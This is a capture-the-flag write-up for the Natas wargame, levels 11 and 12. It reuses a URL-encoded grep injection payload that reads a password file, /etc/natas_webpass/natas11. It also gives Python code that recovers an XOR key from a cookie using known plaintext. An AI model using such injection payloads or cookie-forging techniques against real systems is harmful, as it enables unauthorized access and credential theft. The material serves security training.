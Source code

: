 In this challenge, the code checks if the `$key` parameter contains any illegal characters (`;`, `|`, or `&`). If it does, an error message is printed. Otherwise, the `grep` command is executed with the `$key` parameter.
Since our previous payload for Natas 10 did not include any illegal characters, we can reuse it for this challenge.

Recall the payload from Natas 10:

```bash
# payload: '[aeiou]' /etc/natas_webpass/natas11 #
#: echo "'[aeiou]' /etc/natas_webpass/natas11 #" | urlencode
%27%5baeiou%5d%27+%2fetc%2fnatas_webpass%2fnatas11+%23%0a
```

## Natas 12

In this CTF challenge, the objective is to exploit a vulnerability in the handling of encrypted cookies. We need to retrieve the encryption key, modify the cookie to change a value, and then re-encrypt the cookie to gain access.

### Step 1: Get the Encryption Key

First, we need to obtain the encryption key by analyzing the provided cookie data.

#### Code Explanation

1. **Import necessary libraries**:
    - `base64` for encoding and decoding base64 strings.
    - `json` for handling JSON data.
    - `urllib.parse` for URL encoding.
2. **Decode the base64 encoded string**:
    - The cookie data is base64 encoded. We need to decode it to get the ciphertext.
3. **Known plaintext data**:
    - From the source code, we know the structure of the plaintext data.
4. **Calculate the XOR key**:
    - The key is found by XORing the ciphertext with the known plaintext.

```python
import base64
import json
import urllib.parse

# Decode the base64 encoded string (cookie value)
cookie_data = "MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY="  # Replace with actual cookie value
ciphertext = base64.b64decode(cookie_data)

# Known plaintext data (from source code)
plaintext = json.dumps({"showpassword" : "no","bgcolor" : "#ffffff"})

# Function to calculate the XOR key
def xor_decrypt(ciphertext, plaintext):
    key = b''
    for i in range(len(ciphertext)):
        key += bytes([ciphertext[i] ^ plaintext.encode()[i]])
    return key

# Get the XOR key
key = xor_decrypt(ciphertext, plaintext)

print("Key:", key)
```

